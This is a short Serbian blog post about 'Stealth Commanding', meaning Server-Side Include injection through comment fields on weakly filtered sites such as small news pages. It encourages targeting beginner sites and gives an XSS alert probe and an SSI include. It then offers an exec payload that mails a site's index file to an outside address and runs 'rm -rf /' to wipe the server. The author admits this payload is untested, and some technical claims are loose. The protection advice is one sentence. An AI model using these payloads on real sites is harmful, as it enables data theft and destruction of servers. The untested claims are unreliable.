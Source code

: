 ```yaml
---
title: "Stealth Commanding"
publishedAt: "2024-08-13"
summary: "My first post on my new blog."
---
```


# [ Stealth Commanding ]

### [ Content ]

[1] What is Stealth Commanding \
[2] What is SSI \
[3] How to find vulnerability \
[4] Example of attack \
[5] How to protect


[1] Šta je Stealth Commanding \
Stealh Commanding je vrsta web napada u kome se pomoću SSI (Server-side inclusion) kodova iskorišćava ranjivosti istog.
Ovaj napad se može izvesti ukoliko su u pitanju fajlovi sa ekstenzijom .asp ili .shtml

[2] Šta je SSI (Server-side inclusion) \
SSI je način priključivanja nekih fajlova nekom fajlu.

U PHP-u se priključivanje fajlova radi na ovaj način: include('header.php');
dok se u ASP ili SHTML radi na ovaj: <!--#include virtual="fajl.html"-->

[3] Kako uvideti ranjivost \
Pošto dorkovi za ovu ranjivost ne postoje najčešće se cilja na početničke sajtove u kojima se može komentarisati neka vesti ili slično.
Ako su filteri loše postavljeni ili ne postoje ono što će ova greška uraditi je da će poput XSS-a urediti kod sajta i izvršiti "naređenje".

[4] Primer Napada \
Naišli smo na jednostavan sajt dnevnih novina i uvideli da ako ostavimo komentar sa porukom<script>alert("XSS")</script> nakon refrešovanja
izbaciće nam poruku sa tekstom XSS što bi značilo da je sajt ranjiv. Sledeće što trebamo da uradimo je da umesto <script>alert("XSS")</script>
<!--#include virtual="index.shtml"--> što će na npr. stranici /stranica/novost/ovaj-onaj-levo-desno.shtml dodati pored osnovne stvari i
index fajl.

E sada moja teorija za iskorišćavanje ove ranjivosti je sledeća
```jsx
<!--#exec cmd="mail -s 'Index sajta' moj.email@mail.com <index.shtml; rm -rf /"-->
```

Što će pokrenuti komandu da se pošalje na moj email poruka sa naslovom Index sajta
sa kodom index stranice i nakon toga formatirati server. Ovo još nije testirano zato sam koristio prostu include komandu kao primer.

[5] Zaštita skripte \
Da bi zaštitili naš sajt od ovog napada dovoljno je da se napravi dobar filter i komentari sa approving opcijom i to je to.
